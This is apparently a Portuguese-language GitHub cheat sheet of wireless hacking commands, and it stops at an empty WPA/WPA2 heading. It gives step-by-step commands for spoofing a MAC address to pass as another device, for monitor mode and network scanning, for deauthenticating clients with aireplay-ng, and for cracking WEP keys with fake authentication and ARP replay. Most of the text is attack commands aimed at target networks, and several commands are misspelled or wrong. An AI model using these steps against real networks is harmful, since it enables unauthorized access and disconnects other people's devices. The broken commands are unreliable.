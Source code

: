 ## Trocar o endereço MAC

**Objetivos:**
- Anonimizar
- Passar por outro dispositvo

**Comandos:**

   *$ ifconfig<br>
   $ ifconfig {interface} down<br>
   $ ifconfig {interface} hw ether {MAC novo}<br>
   $ ifconfig {interface} up*

# Wlan

## Colocando a interface no modo de monitoramento

### Opção 1
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode monitor<br>
   $ ifconfig {interface} up*
### Opção 2
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf start {interface}*<br>
- Neste caso é criada uma nova inteface - normalmente com o acrescimo de 'mon' ao final do nome da inteface original.
## Restaurando a interface para o modo managed

### Opção 1 (se feito pelo opção 1 anterior)
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode managed<br>
   $ ifconfig {interface} up*
### Opção 2 (se feito pelo opção 2 anterior)
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf stop {interface mon}<br>
   $ service NetworkManager restart, ou systemch restart NetworkManager*
### Opção 3 (ambos os casos)
   *$ rebbot*

## Monitorar redes de wifi
### Descobrindo as redes Wi-Fi

Com o modo monitor habilitado:

   *$ airodump-ng {interface}* - para redes 2.4Ghz <br>
   *$ airodump-ng --band a {interface}* - para redes 5Ghz <br>
   *$ airodump-ng --band a {interface}* - para ambas

### Monitorando uma rede específica (e gravar em arquivo)
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*

### Desconectando um aparelho
Rodar simultaneamente , em outro terminal, com o airodump-ng 

   *$ aireplay-ng --deauth {número de envios} -a {MAC Access Point} -c {MAC Cliente} {interface}*

## Hackeando - segurança WEP
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*
   
Em outro terminal

   *S aircrack-ng {arquivo.cap}* - Para achar a chave

- Para se conectar, basta selecionar a rede alvo e digitar a chave sem os ":"

### Redes de baixa utilização
Necessidade provocar o envio de packets pelo Access point

No terminal 1

   *S ifconfig* - para obter o MAC da interface: 6 primeiros números do unspec. <br>
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*

No terminal 2

   *$ aireplay-ng --fakeauth 0 -a {MAC Access Point} -h {MAC interface} {interface}* - Obter conexão com AC, mas ainda não autenticado.<br>
    *$ aireplay-ng --arpreplay -b {MAC Access Point} -h {MAC interface} {interface}* - Força envio de pacotes pelo Access Point<br>

No terminal 3

   *$ aireplay-ng --fakeauth 0 -a {MAC Access Point} -h {MAC interface} {interface}* <br>
   *$ aircrack-ng {arquivo.cap}*


## Hackeando - segurança WPA/WPA2



   
